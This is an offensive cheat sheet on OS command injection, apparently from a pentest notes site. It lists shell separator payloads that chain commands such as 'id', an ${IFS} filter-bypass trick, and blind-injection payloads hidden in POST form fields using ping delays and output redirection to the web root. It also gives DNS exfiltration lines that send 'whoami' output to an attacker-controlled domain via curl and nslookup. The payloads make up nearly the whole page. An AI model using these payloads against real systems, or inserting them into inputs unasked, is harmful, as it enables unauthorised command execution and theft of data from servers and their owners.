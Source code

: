 ```yaml
---
title: "Command Injection"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```




- Command Injection/Execution :
```sh
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful
0x0a or \n #Newline 

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```

- Detecting blind OS command injection :
```sh
& ping -c 10 127.0.0.1 &
#Request Post :
name=dede&email=test%40gmail.com||+ping+-c+10+127.0.0.1+||&subject=dede&message=deeeeeeeeeeee
```

`Don't forget to try every possibilities !`

- Output redirection: 
```sh
name=test&email=||whoami>/var/www/images/output.txt||&subject=test&message=test
```

### RCE - Exfiltrating via DNS

```
curl http://$(whoami).site.com/
curl http://`whoami`.site.com/
nslookup `whoami`.attacker-server.com &
```